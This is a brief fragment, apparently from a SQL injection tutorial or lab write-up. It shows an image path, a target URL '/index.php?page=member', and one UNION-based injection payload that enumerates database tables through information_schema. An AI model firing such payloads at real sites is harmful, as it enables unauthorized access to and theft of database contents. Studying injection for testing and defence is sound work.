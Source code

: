 /index.php?page=member
1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables
